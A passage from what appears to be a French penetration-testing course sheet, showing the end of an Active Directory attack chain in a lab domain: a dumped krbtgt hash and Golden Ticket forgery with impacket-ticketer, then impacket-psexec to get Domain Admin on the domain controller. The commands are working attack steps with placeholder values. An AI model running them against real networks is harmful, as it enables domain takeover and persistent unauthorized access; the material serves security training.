# krbtgt:502:aad3b435b51404eeaad3b435b51404ee:1a2b3c4d5e6f7890...:::
```

**6. Golden Ticket (optionnel, pour prouver la persistence)** :

```bash
impacket-ticketer -nthash 1a2b3c4d5e6f7890... \
  -domain-sid S-1-5-21-1234567890-1234567890-1234567890 \
  -domain corp.lab.local Administrator

export KRB5CCNAME=Administrator.ccache
impacket-psexec -k -no-pass corp.lab.local/Administrator@dc01.corp.lab.local
# Accès Domain Admin confirmé via Golden Ticket
```

---

## Navigation

← Fiche précédente : **[02 - Exploitation et Post-Exploitation](02-exploitation-post-exploitation.md)**

→ Fiche suivante : **[04 - Sécurité Web Avancée](04-securite-web-avancee.md)**
